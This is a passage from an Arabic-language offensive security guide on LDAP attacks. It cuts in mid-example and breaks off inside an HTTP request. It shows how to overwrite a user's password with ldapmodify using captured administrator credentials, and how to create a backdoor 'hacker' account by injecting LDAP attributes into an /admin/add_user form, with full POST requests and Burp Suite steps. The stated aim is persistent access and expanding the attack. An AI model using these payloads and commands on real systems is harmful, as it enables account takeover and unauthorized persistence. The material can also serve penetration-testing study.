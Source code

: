    username=user1&password=user1pass
    ```

#### د. استخدام `ldapmodify` مع بيانات اعتماد إدارية
- **السيناريو**: لديك بيانات اعتماد إدارية (`administrator:MYKE`) وتريد تعديل `userPassword` لـ `user1`.
- **الأوامر**:
  - أنشئ ملف LDIF (`modify_user1.ldif`):
    ```
    dn: uid=user1,dc=domain,dc=com
    changetype: modify
    replace: userPassword
    userPassword: newpass123
    ```
  - شغّل `ldapmodify`:
    ```
    ldapmodify -x -H ldap://target_ip -D "cn=administrator,dc=domain,dc=com" -w MYKE -f modify_user1.ldif
    ```
- **كيف يعمل**:
  - `ldapmodify` يرسل طلب تعديل إلى خادم LDAP لتغيير `userPassword`.
  - إذا نجح، يتم تحديث كلمة المرور.
- **متى يُستخدم؟**:
  - عندما تملك بيانات اعتماد إدارية ووصول مباشر إلى خادم LDAP.
- **الأوامر/الإجراءات**:
  - قم بتثبيت `ldap-utils`: `sudo apt install ldap-utils`
  - أنشئ ملف LDIF وشغّل الأمر أعلاه.
  - تحقق من التعديل بتسجيل الدخول بـ `user1:newpass123`.

### 2. إضافة كائنات جديدة
الهدف هو إنشاء مستخدمين أو مجموعات جديدة لضمان وصول دائم أو توسيع الهجوم.

#### أ. إضافة مستخدم جديد عبر واجهة التطبيق
- **السيناريو**: واجهة `/admin/add_user` تتفاعل مع LDAP وتتأثر بـ LDAP Injection.
- **الإدخال**:
  - Username: `hacker)(uid=hacker)(objectClass=inetOrgPerson)(userPassword=hacker123)(cn=Hacker)`
  - Password: `anything`
- **الطلب**:
  ```
  POST /admin/add_user HTTP/1.1
  Host: example.com
  Content-Type: application/x-www-form-urlencoded

  username=hacker)(uid=hacker)(objectClass=inetOrgPerson)(userPassword=hacker123)(cn=Hacker)&password=anything
  ```
- **كيف يعمل**:
  - الاستعلام يحاول إنشاء مستخدم جديد (`uid=hacker`) مع كلمة مرور `hacker123`.
  - استجابة إيجابية (مثل "User added") تؤكد نجاح الإضافة.
  - تحقق بتسجيل الدخول بـ `hacker:hacker123`.
- **متى يُستخدم؟**:
  - عندما يسمح التطبيق بإضافة مستخدمين عبر واجهة متأثرة بـ LDAP Injection.
- **الأوامر/الإجراءات**:
  - أرسل الطلب في Burp Suite Repeater.
  - تحقق من المستخدم:
    ```
    POST /login HTTP/1.1
    Host: example.com
    Content-Type: application/x-www-form-urlencoded

